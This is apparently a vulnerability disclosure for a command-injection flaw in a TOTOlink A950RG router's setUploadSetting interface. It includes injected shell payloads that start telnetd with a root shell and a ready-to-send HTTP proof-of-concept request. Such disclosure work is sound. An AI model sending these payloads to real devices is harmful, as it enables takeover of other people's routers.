


# TARGET

TOTOlink A950RG Router (Firmware Version V4.1.2cu.5204_B20210112)

# BUG TYPE

Command Execution Vulnerability

# Abstract

A command execution vulnerability exists in the TOTOlink A950RG router running firmware version V4.1.2cu.5204_B20210112. The issue is located in the `setUploadSetting` interface of the `/lib/cste_modules/upgrade.so` module. Due to insufficient validation of the user-controlled `FileName` parameter, an attacker can inject arbitrary system commands by sending specially crafted requests. Successful exploitation allows an unauthenticated attacker to execute arbitrary commands on the target device and gain full control over the affected router.

# Details



## Vulnerability Description

The vulnerability stems from inadequate filtering and validation of the `FileName` parameter processed by the `setUploadSetting` interface in the `upgrade.so` module. The function retrieves the `FileName` value using `websGetVar` and stores it directly into a buffer without performing any form of sanitization or shell escaping.

Additionally, the system retrieves a configuration keyword using `apmib_get(7102, v30)`, then constructs a command that reads the user-specified file and filters its content using `grep`. This command is later executed through the `getCmdStr` function.

Because the `FileName` argument is inserted directly into a shell command, an attacker can inject shell metacharacters—such as `;`, `|`, or `$()`—to escape the intended command and execute arbitrary system commands.

If the attacker injects a payload that starts the Telnet service, the router will execute the malicious command when invoking `getCmdStr()`. As a result, a previously disabled Telnet service may be activated, enabling the attacker to log in remotely and obtain full shell access.

## Local Reproduction Environment

* **Device:** TOTOlink A950RG
* **Firmware Version:** V4.1.2cu.5204_B20210112
* **Manufacturer Website:** [https://www.totolink.net/](https://www.totolink.net/)
* **Firmware Download:** [https://totolink.tw/support_view/A950RG](https://totolink.tw/support_view/A950RG)

Testing demonstrated that the injected command successfully activates the Telnet service, confirming arbitrary command execution by remote attackers.

## Root Cause Analysis

Reverse engineering of `upgrade.so` using IDA revealed the following behavior:

1. `websGetVar` obtains the `setUploadSetting` parameter and stores it in `filename`.
2. `apmib_get(7102, v30)` loads a device configuration string (such as a keyword or identifier).
3. The system reads content from the file specified in `FileName` and pipes it through `grep` using the retrieved keyword.
4. The resulting command string is then passed to `getCmdStr` for execution.

Because `filename` originates entirely from attacker input and is embedded directly into a shell command without sanitization, malicious payloads can easily escape the intended `cat` operation.

### Example Attack

An attacker can send a request like:

```
FileName=/dev/null; telnetd -l /bin/sh
```

The resulting `sprintf`-generated command becomes:

```
cat /dev/null; telnetd -l /bin/sh | grep <v30_value>
```

When executed:

1. `cat /dev/null` executes harmlessly.
2. `telnetd -l /bin/sh` starts a Telnet service that grants root shell access.
3. The output is piped to `grep`, which does not affect the earlier commands.

Since `telnetd` successfully starts, the attacker can immediately connect to the router's Telnet port and obtain full control.

### Impact

Attackers can exploit this vulnerability by injecting arbitrary commands via the `FileName` parameter. This leads to unauthenticated remote code execution, device takeover, and full compromise of the system.

# POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 66
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/internet/ipv6_radvd.asp?timestamp=1760671762433
Cookie: SESSION_ID=2:1610464568:2
Priority: u=0

{"topicurl":"setting/setUploadSetting",
 "FileName":"; telnetd # "}
```

When the payload is sent via Burp Suite, the router executes the injected `telnetd` command, enabling Telnet access to the device’s shell.

